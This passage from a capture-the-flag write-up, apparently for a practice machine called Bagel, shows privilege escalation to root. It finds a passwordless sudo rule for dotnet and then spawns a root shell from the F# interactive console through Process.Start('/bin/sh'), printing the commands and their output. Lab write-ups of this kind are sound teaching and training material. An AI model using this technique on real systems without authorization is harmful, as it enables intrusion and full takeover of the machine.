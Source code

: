 Since we were able to escalate from phil to developer without any problems it's time to enumerate.  

```bash
sudo -l
Uer developer may run the following commands on bagel:
    (root) NOPASSWD: /usr/bin/dotnet
```

## Root

Used the method described here to become root [gtfobins - dotnet](https://gtfobins.github.io/gtfobins/dotnet/) 

```bash
[developer@bagel app]$ sudo /usr/bin/dotnet fsi

Welcome to .NET 6.0!
---------------------
SDK Version: 6.0.113

----------------
Installed an ASP.NET Core HTTPS development certificate.
To trust the certificate run 'dotnet dev-certs https --trust' (Windows and macOS only).
Learn about HTTPS: https://aka.ms/dotnet-https
----------------
Write your first app: https://aka.ms/dotnet-hello-world
Find out what's new: https://aka.ms/dotnet-whats-new
Explore documentation: https://aka.ms/dotnet-docs
Report issues and find source on GitHub: https://github.com/dotnet/core
Use 'dotnet --help' to see available commands or visit: https://aka.ms/dotnet-cli
--------------------------------------------------------------------------------------

Microsoft (R) F# Interactive version 12.0.0.0 for F# 6.0
Copyright (c) Microsoft Corporation. All Rights Reserved.

For help type #help;;

> System.Diagnostics.Process.Start("/bin/sh").WaitForExit();;
sh-5.2# whoami
root
sh-5.2# cd /root
sh-5.2# ls
anaconda-ks.cfg  bagel  root.txt
```